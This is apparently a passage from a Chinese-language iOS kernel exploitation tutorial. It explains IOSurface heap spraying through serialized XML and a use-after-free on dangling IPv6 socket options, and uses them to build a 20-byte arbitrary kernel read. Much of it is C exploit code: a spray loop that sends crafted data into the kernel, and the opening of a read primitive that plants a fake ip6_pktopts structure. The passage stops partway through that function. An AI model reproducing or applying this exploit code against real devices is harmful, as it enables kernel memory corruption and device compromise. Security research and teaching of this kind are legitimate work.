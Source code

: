 ```xml
<kOSSerializeSymbol>${sizeof(uint32_t) + 1}</kOSSerializeSymbol>
<key>${key}</key>
0
```

此时 XML 结构已经构建完毕，只需要向 `xml_data` 占位符中填充 Spraying Data，向 key 中填充标识符即可完成组装。

## 组装数据
接下来的代码完成的是数据填充和向内核发送数据，基于上面的讨论很好理解：
```c
// Keep track of when we need to do GC.
static uint32_t total_arrays = 0;
size_t sprayed = 0;
size_t next_gc_step = 0;
// Loop through the arrays.
for (uint32_t array_id = 0; array_id < array_count; array_id++) {
    // If we've crossed the GC sleep boundary, sleep for a bit and schedule the
    // next one.
    // Now build the array and its elements.
    // 1. 生成唯一标识符填充到 key
    *key = base255_encode(total_arrays + array_id);
    for (uint32_t data_id = 0; data_id < current_array_length; data_id++) {
        // Copy in the data to the appropriate slot.
        // 2. 将数据填充到 OSString
        memcpy(xml_data[data_id], data, data_size - 1);
    }
    
    // 3. 向内核发送数据
    // Finally set the array in the surface.
    ok = IOSurface_set_value(args, args_size);
    if (!ok) {
    	free(args);
    	free(xml_data);
    	return false;
    }
    if (ok) {
        sprayed += data_size * current_array_length;
    }
}
```

通过上述代码中标出的 3 个关键步骤即可将组装好的 XML 送入内核帧缓冲区，内核会为其中的 OSString 分配内存，在这个过程中就完成了 Heap Spraying。

# 使用 IOSurface Heap Spraying 实现 kread
通过构造多个悬垂的 `in6p_outputopts`，再以伪造的 `in6p_outputopts` 进行 spraying，将伪造数据结构的 pktinfo 指向待读取地址，minmtu 作为标识符，进行 IOSurface Spraying，随后基于 minmtu 挑选成功 Spraying 的悬垂 `in6p_outputopts` 区域，使用 getsockopt 获取 pktinfo 结构体内容，由于该结构体大小为 20B，我们由此拿到了指定内核地址 20B 的数据：

```c
// second primitive: read 20 bytes from addr
void* read_20_via_uaf(uint64_t addr) {
    // create a bunch of sockets
    int sockets[128];
    for (int i = 0; i < 128; i++) {
        sockets[i] = get_socket_with_dangling_options();
    }
    
    // create a fake struct with our dangling port address as its pktinfo
    struct ip6_pktopts *fake_opts = calloc(1, sizeof(struct ip6_pktopts));
    fake_opts->ip6po_minmtu = 0x41424344; // give a number we can recognize
    *(uint32_t*)((uint64_t)fake_opts + 164) = 0x41424344; // on iOS 10, offset is different
    fake_opts->ip6po_pktinfo = (struct in6_pktinfo*)addr;
    
```